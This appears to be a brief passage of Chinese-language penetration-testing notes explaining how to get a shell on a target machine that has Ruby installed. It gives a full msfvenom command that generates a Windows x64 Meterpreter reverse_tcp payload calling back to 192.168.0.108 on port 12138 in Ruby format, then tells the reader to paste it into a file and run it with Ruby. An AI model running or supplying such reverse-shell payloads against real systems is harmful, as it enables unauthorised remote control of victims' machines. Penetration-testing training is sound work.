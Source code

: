 	目标机器装有ruby时
	生成
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f ruby
	粘贴到ruby中
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/96.png)

	执行
	>ruby xx.ruby